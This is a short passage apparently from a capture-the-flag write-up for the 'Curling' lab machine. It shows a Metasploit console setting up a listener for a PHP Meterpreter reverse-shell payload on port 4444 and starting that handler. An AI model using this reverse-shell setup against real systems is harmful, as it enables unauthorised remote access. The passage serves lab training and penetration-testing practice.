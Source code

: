 ![](/assets/images/htb-writeup-curling/php.png)

```
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.23:4444
```
